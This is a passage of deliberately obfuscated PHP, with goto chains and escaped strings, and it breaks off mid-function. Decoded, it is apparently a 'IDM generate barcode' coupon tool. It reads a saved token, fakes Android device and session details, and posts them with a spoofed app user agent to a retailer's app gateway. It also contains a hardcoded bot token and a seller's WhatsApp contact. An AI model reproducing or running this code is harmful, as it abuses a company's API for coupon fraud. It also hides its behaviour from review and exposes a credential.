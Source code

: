$ea26e113b5 = @$ac613f38ea["\x64\x61\164\141"]["\x70\x68\157\156\x65\x4e\x75\155\142\x65\162"]; goto ef2edcdfd1; F126b097e9: D2f6a9a14e: goto c7c3b148d9; F4353cd14f: echo "\12"; goto A5fcc85065; Ab61784d41: if (!unlink($F6e508e30f)) { goto d8f7be8444; } goto Eac7541326; de4d7ee9fc: Bcdabe246e: goto B82e738d4a; Fdc018824e: echo "\12"; goto F3f3d7fc9c; c4e7f70650: echo "\12"; goto D6eaf6f02d; bde997ee49: echo @e947C49D94("\x79\145\154\x6c\x6f\x77", "\116\x61\x6d\x61\x20\113\x75\x70\x6f\x6e\156\171\x61\40\x20\x20\40\x20\x20\x20\x3a\x20"); goto Ca22be56c8; e5f39be627: $F8756720e6 = explode("\xa", @file_get_contents("\x6d\x79\x74\157\x6b\145\156")); goto B667d007a1; ed1a40de3d: if (!($dc27bac6d9 == '')) { goto b7b88c5122; } goto F9464c5efd; db79e2609d: echo "\xa"; goto Ddd3a10e58; d0e71afe53: $e3a59ebb55 = "\61\x31\71\64\67\61\x34\x35\x31\65\x3a\101\x41\x46\146\171\64\115\x52\126\165\61\166\111\115\106\x45\126\144\x43\x54\x61\x5a\123\x63\152\63\152\162\103\x75\122\147\144\150\x6b"; goto Cda6e8559e; D60f54df9b: echo @e947c49D94("\171\145\154\154\x6f\x77", "\x50\x65\x73\141\156\x20\x20\x20\x20\x20\40\x20\40\40\x20\40\40\x20\40\x3a\40"); goto f5294e4f46; cbff783847: $C11109424c = $C887246951; goto e2163d9ea3; Faa841cbae: echo "\12"; goto B2ed9553eb; ac9f03f90c: echo "\12"; goto e568c4f29c; B8da9cb8ae: $Ecd3a56b7a = Bbbe53A505(array("\x7c"), $b4c600349d)[0]; goto dcdc9b9e81; e4129afb4a: echo @E947c49d94("\171\x65\154\x6c\x6f\167", "\174\40\127\x41\x20\60\x38\x32\61\x37\66\x33\65\70\x32\x39\65\40\xa"); goto a73f398796; F6f20179e1: A0d40525e8: goto ffcb79602f; ede7220d7e: @unlink("\155\x79\164\157\x6b\x65\156"); goto f997743768; Baad7699b4: if (!($f3db32fc96 == '')) { goto f9cf590023; } goto Da0c18eda1; Ff768392d3: echo @E947c49d94("\162\x65\x64", "\12\176\x7e\176\176\176\x7e\x7e\x7e\176\176\x7e\x7e\x7e\176\176\x7e\176\x7e\x7e\176\x7e\x7e\x7e\176\176\x7e\x7e\x7e\176\176\x7e\x7e\x7e\176\x7e\x7e\176\176\176\x7e\176\176\x7e\176\176\x7e\x7e\x7e\xa"); goto A101a1400e; f25388a681: echo @e947c49D94("\156\x65\x76\x79", "\123\157\162\162\171\54\x20\x54\150\x69\163\x20\123\x63\x72\x69\x70\164\40\x48\x61\163\x20\x42\x65\x65\156\40\x52\x65\155\157\166\x65\x64\40\102\171\40\x54\150\145\x20\117\167\x6e\145\162\x21\41"); goto b360e083e8; C78b45ae3d: $aa7557b2b9 = "\x31\60\60\x30\60\x30\x30\60\x30\x30\60\60\x30\60\x30\60\60\60"; goto d30956df0a; ba1ac64211: $ff3495a7c2 = E28e5F7ad5("\x68\x74\164\x70\x73\x3a\x2f\57\x61\x73\x69\x61\55\x73\x6f\x75\164\150\x65\141\x73\x74\62\x2d\x69\144\x6d\55\x63\157\x72\x70\55\x70\x72\144\56\x63\154\157\165\144\x66\165\156\143\x74\151\157\x6e\163\x2e\x6e\145\x74\57\151\x64\x6d\141\x70\160\x73\x5f\x74\162\141\143\x6b\x65\162\137\147\141\x74\145\x77\141\171", $b69fb2a8ef); goto a8c515e1d9; d4d659b41e: echo "\x53\141\x6d\160\x61\151\40\102\x61\162\151\163\40\x4b\145\40\72\40"; goto E9d14af252; A15a9c7b2f: if (!($Ecd3a56b7a == '')) { goto a74c41bd10; } goto b3366d99e2; b35f3d6bef: $E384ff082d = DAb2B82ccA(); goto f48a62fd99; aecc2db463: echo @e947C49d94("\x6e\x65\166\x79", "\x20\174\x20\123\143\162\x69\x70\x74\40\111\104\115\40\107\105\116\105\x52\x41\124\x45\x20\x42\x41\x52\103\117\x44\x45\12"); goto b5744b1f60; D53bdebec9: $b69fb2a8ef = "\x7b\42\x64\141\164\141\x22\72\133\x7b\x22\x61\160\x70\x6c\151\143\x61\x74\x69\157\x6e\x22\x3a\173\x22\x61\x70\x70\x5f\x76\145\x72\x73\x69\157\156\x22\72\x22\x33\x2e\71\x2e\71\x22\x2c\x22\144\145\x76\x69\143\x65\x5f\x63\x6c\141\163\x73\42\72\x22\x50\150\157\156\x65\x22\x2c\42\x64\x65\166\x69\143\x65\137\146\141\x6d\151\x6c\171\42\72\x22" . $ed61132195 . "\x22\54\42\x64\145\x76\x69\143\145\137\151\x64\42\x3a\42" . $ab4e84f9b8 . "\x22\54\x22\x6f\x73\137\156\141\x6d\145\x22\x3a\42\x41\x6e\x64\x72\x6f\x69\144\x20\120\42\54\42\x6f\x73\137\x76\x65\162\163\x69\x6f\156\42\72\42\x41\156\144\x72\157\151\x64\x20\71\42\x7d\x2c\42\x63\157\162\145\x22\x3a\x7b\x22\x61\x63\x74\x69\166\151\x74\171\x5f\144\x65\164\x61\151\154\x73\x22\x3a\x22\x72\x65\x73\165\155\145\x5f\141\x70\x70\x22\x2c\42\x65\x76\x65\x6e\164\137\x6e\141\155\x65\42\72\42\x61\x70\x70\x5f\141\143\x74\151\x76\x69\164\171\x22\x2c\42\145\x76\x65\x6e\x74\137\164\x69\x6d\x65\163\x74\141\155\x70\42\x3a" . $F24ec9a334 . "\175\x2c\42\x75\x73\145\162\42\x3a\173\x22\x73\145\x73\x73\x69\157\156\137\x69\x64\42\x3a\x22" . $e336bfc944 . "\42\x2c\42\165\163\x65\162\137\x69\160\137\x61\144\144\x72\x65\x73\163\42\x3a\42\x31\62\x37\x2e\60\56\x30\x2e\61\x22\175\x7d\x5d\x7d"; goto d75a65cb40; Ea64773a58: function e0d5842610($Ce7347f5f2, $b69fb2a8ef = null) { goto f8fcae3b1d; f8ff2086d7: curl_setopt($dc46f57333, CURLOPT_AUTOREFERER, true); goto d1633e5465; fa6531ad68: d11d3fd95b: goto e481e2d178; e0e5087a12: curl_setopt($dc46f57333, CURLOPT_RETURNTRANSFER, 1); goto Ebbd98251c; Ac7f3860fc: $d2d2568be5 = curl_getinfo($dc46f57333); goto e0584099ca; d1633e5465: curl_setopt($dc46f57333, CURLOPT_HTTPHEADER, $Dc9958cb4f); goto c93fcffc9e; Ebbd98251c: curl_setopt($dc46f57333, CURLOPT_POST, 1); goto D8040aa4dd; E288331dd1: print_r($d966d2cc3b); goto b0cc3097b1; d40bbd60e2: curl_setopt($dc46f57333, CURLOPT_COOKIEJAR, "\153\x6c\x69\x6b\56\x74\x78\x74"); goto ab4bd90008; D8040aa4dd: $Dc9958cb4f[] = "\x55\163\145\162\x2d\x41\x67\x65\156\x74\72\40\x6f\x6b\150\164\x74\x70\57\x35\56\60\x2e\60\55\141\154\160\x68\x61\56\x35"; goto d0d396006d; D17b611fb1: curl_setopt($dc46f57333, CURLOPT_POSTFIELDS, $b69fb2a8ef); goto d40bbd60e2; c506968c5f: curl_setopt($dc46f57333, CURLOPT_URL, $Ce7347f5f2); goto b02b35e464; B6b2cabcdd: ab0c574c7f: goto ce3d9fb025; ab4bd90008: curl_setopt($dc46f57333, CURLOPT_COOKIEFILE, "\x6b\154\x69\x6b\56\x74\170\x74"); goto Aea4f8e589; e0584099ca: if (!$d2d2568be5) { goto ab0c574c7f; } goto d2b675c035; b02b35e464: curl_setopt($dc46f57333, CURLOPT_FOLLOWLOCATION, true); goto e0e5087a12; b42e365481: $ca3ae97e15 = substr($b67bef703b, curl_getinfo($dc46f57333, CURLINFO_HEADER_SIZE)); goto A144ebfa98; A144ebfa98: goto d11d3fd95b; goto B6b2cabcdd; d2b675c035: